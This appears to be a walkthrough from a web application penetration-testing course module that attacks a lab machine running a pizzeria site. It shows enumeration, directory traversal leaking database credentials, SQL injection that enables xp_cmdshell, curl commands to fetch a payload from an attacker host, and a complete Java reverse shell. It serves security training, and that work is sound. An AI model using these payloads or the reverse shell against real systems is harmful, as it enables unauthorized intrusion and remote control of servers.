# Module 16: Assembling the Pieces: Web Application Assessment Breakdown

## Introduction to WEB-200 Challenge Machines

### Welcome to the Challenge Machines

_These fall between the sandbox and the cast study machines, running custom-designed applications intended to mimic real-world applications. You may need to combine multiple attacks or apply techniques in different ways to exploit them._

### Starting and Accessing Challenge Machines

_Start, revert, or stop the challenge machines from the **Labs** page. Add them to your hosts file for ease of access._

### Completing Challenge Machines

Each challenge machine contains two flags. Each machine may be different, but generally, there is a **local.txt** obtained within the application after performing an authenticated bypass attack. The **proof.txt** requires gaining a shell on the machine.

## Web Application Enumeration

### Accessing the Challenge Machine

_Start the VPN, the VM, and add its ip/hostname to your hosts file._

### Basic Host Enumeration and OS Detection

_Run nmap to identify open ports and other information._

Basic nmap scan of the challenge machine

```bash
kali@kali:~$ nmap asio
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-18 15:11 EST
Nmap scan report for asio (192.168.50.131)
Host is up (0.059s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 5.80 seconds
```

Nmap scan with OS discovery enabled


```bash
kali@kali:~$ sudo nmap -O -Pn asio       
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-18 15:12 EST
Nmap scan report for asio (192.168.50.131)
Host is up (0.059s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): AVtech embedded (87%), Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%), Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.69 seconds
```


### Content Discovery

<figure><figcaption><p><em>Strigi's Pizzeria Home Page</em></p></figcaption></figure>

<figure><figcaption><p>HTTP History includes external requests</p></figcaption></figure>

<figure><figcaption><p>Adding a Request to scope</p></figcaption></figure>

<figure><figcaption><p>Proxy history logging dialog window</p></figcaption></figure>

<figure><figcaption><p>HTTP History Filter Settings</p></figcaption></figure>

<figure><figcaption><p>HTTP POST Request from clicking Subscribe</p></figcaption></figure>

_Running gobuster against the challenge machine_


```bash
kali@kali:~$ gobuster dir -u http://asio -w /usr/share/wordlists/dirb/common.txt   
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://asio
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/18 15:38:10 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 302) [Size: 0] [--> http://asio/login]
/contact              (Status: 405) [Size: 105]                            
/error                (Status: 500) [Size: 73]                             
/login (Status: 200) [Size: 2746]
/logout               (Status: 302) [Size: 0] [--> http://asio/]     
/newsletter           (Status: 405) [Size: 108]                            
/redirect             (Status: 302) [Size: 0] [--> http://asio/]     
/specials             (Status: 400) [Size: 99]                             
                                                                           
===============================================================
2022/01/18 15:38:53 Finished
===============================================================
```


<figure><figcaption><p>Login page</p></figcaption></figure>

<figure><figcaption><p>Whitelabel Error Page</p></figcaption></figure>

<figure><figcaption><p>Burp Suite Site Map</p></figcaption></figure>

## Authentication Bypass

### Finding a Directory Traversal

<figure><figcaption><p>Baseline Request and Response in Repeater</p></figcaption></figure>

<figure><figcaption><p>Response for web200.html</p></figcaption></figure>

_Nmap scan excerpt_


```bash
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): AVtech embedded (87%), Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%), Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
```


<figure><figcaption><p>Exploiting Directory Traversal to access WIN.INI</p></figcaption></figure>

### Exploiting a Directory Traversal

_Contents of paths.txt_

```bash
kali@kali:~$ nano paths.txt

kali@kali:~$ cat paths.txt
../
../../
../../../
../../../../
../../../../../
../../../../../../
../../../../../../../
```

_Contents of files.txt_

```bash
kali@kali:~$ nano files.txt
                                                  
kali@kali:~$ cat files.txt
application.properties
application.yml
config/application.properties
config/application.yml
```

_Wfuzz results_


```bash
kali@kali:~$ wfuzz -w paths.txt -w files.txt --hh 0 http://asio/specials?menu=FUZZFUZ2Z
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://asio/specials?menu=FUZZFUZ2Z
Total requests: 28

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                   
=====================================================================

000000003:   200        18 L     21 W       523 Ch      "../ - config/application.properties"

Total time: 0
Processed Requests: 28
Filtered Requests: 27
Requests/sec.: 0
```


_Using curl to access application.properties_

```bash
kali@kali:~$ curl http://asio/specials?menu=../config/application.properties
# STRIGI'S PIZZA 
server.port=80
server.address=0.0.0.0
spring.web.resources.cache.cachecontrol.max-age=1d
# LOGGING
logging.file.name=logs/strigi.log
logging.level.root=WARN

# DATABASE
spring.datasource.driver-class-name=com.microsoft.sqlserver.jdbc.SQLServerDriver
spring.datasource.url=jdbc:sqlserver://127.0.0.1;databaseName=strigi

spring.datasource.username=sa
spring.datasource.password=MqFuFWUGNrR3P4bJ

spring.datasource.hikari.max-lifetime=30

# ADMIN PORTAL
admin.portal.key=06c82a1f-892d-48de-8682-67c0c3a096b4
```

<figure><figcaption><p>Logged in to the Admin page</p></figcaption></figure>

## Remote Code Execution

### Finding SQL Injection

_HTTP Request to Delete a Message_


```http
POST /admin/message/delete?id=4 HTTP/1.1
Host: asio
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://asio
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://asio/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=C0C3B7B39FB409EC20E31AF0B715C801
Connection: close
```


<figure><figcaption><p>Baseline Request and Response to /admin/message/delete</p></figcaption></figure>


If the application redirects us to http://asio/login, our session has expired. In which case, we would need to log in with the API key again and update the JSESSIONID value in Repeater.


<figure><figcaption><p>The Server responded to our basic SQL injection Payload with an error</p></figcaption></figure>

_Excerpt from application.properties_


```bash
...
# DATABASE
spring.datasource.driver-class-name=com.microsoft.sqlserver.jdbc.SQLServerDriver
spring.datasource.url=jdbc:sqlserver://127.0.0.1;databaseName=strigi
...
```


<figure><figcaption><p>Sending a stacked query in Burp Suite Repeater</p></figcaption></figure>

_Wordlist of potential table names_

```bash
kali@kali:~$ nano tables.txt

kali@kali:~$ cat tables.txt
newsletter
newsletters
subscription
subscriptions
newsletter_subscription
newsletter_subscriptions
```

_Base INSERT statement payload_

```sql
insert into TABLE_NAME values('EMAIL_VALUE')
```

_Using Wfuzz to send SQL injection attacks_


```bash
kali@kali:~$ wfuzz -w tables.txt -w tables.txt -m zip -b JSESSIONID=C0C3B7B39FB409EC20E31AF0B715C801 -d "" "http://asio/admin/message/delete?id=4;insert+into+FUZZ+values('FUZ2Z')"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://asio/admin/message/delete?id=4;insert+into+FUZZ+values('FUZ2Z')
Total requests: 6

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                  
=====================================================================

000000006:   302        0 L      0 W        0 Ch        "newsletter_subscriptions - newsletter_subscriptions"
000000002:   302        0 L      0 W        0 Ch        "newsletters - newsletters"
000000001:   302        0 L      0 W        0 Ch        "newsletter - newsletter" 
000000003:   302        0 L      0 W        0 Ch        "subscription - subscription" 
000000005:   302        0 L      0 W        0 Ch        "newsletter_subscription - newsletter_subscription"
000000004:   302        0 L      0 W        0 Ch        "subscriptions - subscriptions"

Total time: 0.360708
Processed Requests: 6
Filtered Requests: 0
Requests/sec.: 16.63394
```


<figure><figcaption><p>Inspecting the newsletter subscription entries on the admin page</p></figcaption></figure>

### Exploit SQL Injection for RCE

_Excerpt from application.properties_

```bash
...
spring.datasource.username=sa
spring.datasource.password=MqFuFWUGNrR3P4bJ
...
```

_Base SQL payload to enable advanced options_

```sql
EXECUTE sp_configure 'show advanced options',1; RECONFIGURE;
```

<figure><figcaption><p>Sending the first payload in Burp Suite Repeater</p></figcaption></figure>

_Base SQL payload to enable xp\_cmdshell_

```sql
EXECUTE sp_configure 'xp_cmdshell',1; RECONFIGURE;
```

<figure><figcaption><p>Sending the second payload in Burp Suite Repeater</p></figcaption></figure>

_Starting a netcat listener on port 8000_

```bash
kali@kali:~$ nc -nvlp 8000
listening on [any] 8000 ...
```

_Base SQL payload to invoke curl using xp\_cmdshell_

```sql
EXEC xp_cmdshell 'curl http://192.168.48.2:8000/itworked'; 
```

<figure><figcaption><p>Sending the curl command payload in Burp Suite Repeater</p></figcaption></figure>

_Netcat listener received an HTTP request_

```bash
...
listening on [any] 8000 ...
connect to [192.168.48.2] from (UNKNOWN) [192.168.50.131] 50274
GET /itworked HTTP/1.1
Host: 192.168.48.2:8000
User-Agent: curl/7.55.1
Accept: */*
```

### Obtaining a Shell


In real-world application assessments, we may need to customize a reverse shell or some other piece of code to complete an attack. However, we recognize that WEB-200 is not a programming course. While we will walk through the code and explain it, we will also provide a copy of the final shell at the end of this section.


_Java Reverse Shell example_


```javascript
String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


_An example Hello World application_

```javascript
class HelloWorldApp {
    public static void main(String[] args) {
        System.out.println("Hello World!"); // Display the string.
    }
}
```

_Creating a file for our reverse shell_

```bash
kali@kali:~$ nano RevShell.java
```

_Basic Java class code_

```javascript
class RevShell {
    public static void main(String[] args) {
        
    }
}
```

_Import statements_

```javascript
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
```

_Java Reverse Shell_


```javascript
kali@kali:~$ cat RevShell.java                                                    
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

class RevShell {
    public static void main(String[] args) {
        String host="192.168.48.2";
        int port=4444;
        String cmd="cmd.exe";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    }
}
```



We compile Java code with the _javac_ command. In this scenario, we can rely on the victim machine to compile the code for us. However, if you wish to run javac locally but the command is not found, you can install the necessary files with **sudo apt-get install default-jdk**.


_Java compiler error_


```javascript
kali@kali:~$ javac RevShell.java                
RevShell.java:11: error: unreported exception IOException; must be caught or declared to be thrown
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
...
```


_Updated main() method declaration_

```javascript
...
  public static void main(String[] args) throws Exception {
...
```

_Starting a python http server to host our shell_

```bash
kali@kali:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

_Base SQL injection payload to download the reverse shell_


```sql
EXEC xp_cmdshell 'curl http://192.168.48.2:8000/RevShell.java --output %temp%/RevShell.java'; 
```


<figure><figcaption><p>Sending the SQL injection payload to run curl and download our shell</p></figcaption></figure>

_Python HTTP Server log_


```log
...
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.50.131 - - [18/Jan/2022 16:38:46] "GET /RevShell.java HTTP/1.1" 200 -
```


_Starting a netcat listener on port 4444_

```bash
kali@kali:~$ nc -nvlp 4444 
listening on [any] 4444 ...
```


On older versions of Java, we'd need to compile the source file using javac. The compiler creates a class file with the same name, but no file extension. In theory, we could compile it locally and upload the class file. However, we would have to know the version of Java running on the server to ensure we compiled our code at the right target version. Java is backwards-compatible, so newer versions of Java will run code compiled for older versions. However, there are exceptions where updates removed some APIs from newer versions due to security concerns.


_Base SQL injection payload to run our Java reverse shell_

```sql
EXEC xp_cmdshell 'java %temp%/RevShell.java'; 
```

<figure><figcaption><p>Sending the request to run our reverse shell</p></figcaption></figure>

_Netcat received our reverse shell_

```bash
...
listening on [any] 4444 ...
connect to [192.168.48.2] from (UNKNOWN) [192.168.50.131] 50515
Microsoft Windows [Version 10.0.17763.2366]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### Conclusion

_Good job, you did it._
